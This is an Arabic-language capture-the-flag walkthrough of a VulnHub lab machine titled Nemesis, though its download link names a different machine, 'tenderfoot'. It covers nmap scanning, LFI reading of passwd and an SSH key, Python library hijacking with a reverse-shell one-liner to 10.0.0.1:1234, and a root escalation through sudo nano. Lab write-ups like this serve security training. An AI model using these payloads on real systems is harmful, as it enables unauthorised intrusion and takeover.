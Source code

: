# vulnhub nemesis

CTF السلام عليكم اليوم سنحل تحدي 

VULNHUB من تحديات  
يمكنك تحميله من هنا 

[tenderfoot](https://www.vulnhub.com/entry/tenderfoot-1,581/)

## Walkthrough

### scanning
 nmap نبدا بفحص السيرفر ب 

 ![Desktop View](/img/nem/1.png)

     نلاحظ وجود 4 بورت

80 : الخاص بالويب سيرفر

52845: شغال ويب سيرفر 

52846: ssh خاص ب 

## Enumeration
 نتصفح الموقع 
 
  ![Desktop View](/img/nem/2.png)


عند القاء نظرة على سورس كود نجد كلمة سر واسم مستخدم


 ![Desktop View](/img/nem/3.png)

rabbit hole عبارة عن 
 
port 52845 نتصفح 

web application عند فحص 

lfi نجد انه مصاب بثغرة 

![Desktop View](/img/nem/4.png)

لنرى اليوزرس المتواجدين هنا passwd نقوم بسحب ملف 

![Desktop View](/img/nem/5.png)


thanos نجد يوزر 

ssh key نبحث داخله هل هناك 

../../../../home/thanos

![Desktop View](/img/nem/7.png)

وجدنا الملف الان نقوم بحفظه و تغير الصلاحيات 

![Desktop View](/img/nem/8.png)

نتصل ب السيرفر الان 

![Desktop View](/img/nem/9.png)

 كل مدت زمنية backup  يقوم بعمل python نجد ملف 

![Desktop View](/img/nem/10.png)


 
zipfile باسم python نقوم بانشاء ملف 

nc و نشغل 

python يعمل ملف carloss عندما يتم تشغيل الملف بواسطة  

  لشال الخاص بنا import 
  ```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

  ```


![Desktop View](/img/nem/11.png)

ننتظر قليل حتى نحصل على الاتصال من السيرفر

![Desktop View](/img/nem/12.png)


home directory نجد داخل  
ملف يقوم بالتشفير بداخله كلمة سر

![Desktop View](/img/nem/13.png)

affine نلاحظ انه عمل تشفير ب 

![Desktop View](/img/nem/14.png)

نقوم بفك تشفيره 

![Desktop View](/img/nem/16.png)

نحصل على كلمة سر 




## Privilege Escalation 


 ان يشغل بصلاحيات رووت carlos ثم نرى ماذا  يستطيع  

 باستخدام الامر التالي
 ```
 sudo -l 
 ```

![Desktop View](/img/nem/18.png)


![Desktop View](/img/nem/20.png)

gtfobiins نتوجه الى  nano نجد ان يستطيع استخدام 

![Desktop View](/img/nem/21.png)


نكتب
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![Desktop View](/img/nem/22.png)




ROOT نحصل على 

![Desktop View](/img/nem/23.png)
